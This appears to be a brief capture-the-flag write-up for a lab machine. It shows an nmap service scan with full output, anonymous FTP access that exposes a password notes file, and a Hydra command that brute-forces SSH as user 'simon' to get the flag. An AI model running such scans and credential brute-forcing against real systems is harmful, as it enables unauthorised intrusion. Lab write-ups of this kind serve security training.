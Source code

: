 ----

First we enumerate services on the host.
```bash
sudo nmap -sC -sV -P- 10.129.10.136
```

```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 71:08:b0:c4:f3:ca:97:57:64:97:70:f9:fe:c5:0c:7b (RSA)
|   256 45:c3:b5:14:63:99:3d:9e:b3:22:51:e5:97:76:e1:50 (ECDSA)
|_  256 2e:c2:41:66:46:ef:b6:81:95:d5:aa:35:23:94:55:38 (ED25519)
53/tcp   open  domain   ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
110/tcp  open  pop3     Dovecot pop3d
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2022-04-11T16:38:55
|_Not valid after:  2032-04-08T16:38:55
|_pop3-capabilities: CAPA RESP-CODES AUTH-RESP-CODE TOP STLS USER PIPELINING SASL(PLAIN) UIDL
995/tcp  open  ssl/pop3 Dovecot pop3d
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ubuntu
| Subject Alternative Name: DNS:ubuntu
| Not valid before: 2022-04-11T16:38:55
|_Not valid after:  2032-04-08T16:38:55
|_pop3-capabilities: USER CAPA RESP-CODES SASL(PLAIN) AUTH-RESP-CODE TOP UIDL PIPELINING
2121/tcp open  ftp      ProFTPD
30021/tcp open ftp      ProFTPD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Connected as anonymous to FTP on port 30021. There was a folder called `simon` and in that folder was a file, My_notes.txt containing passwords.

Used Hydra to use these passwords for ssh with the `simon` username.

```bash
hydra -l simon -P my_notes.txt 10.129.10.136 ssh -V
```

It worked and got the flag.
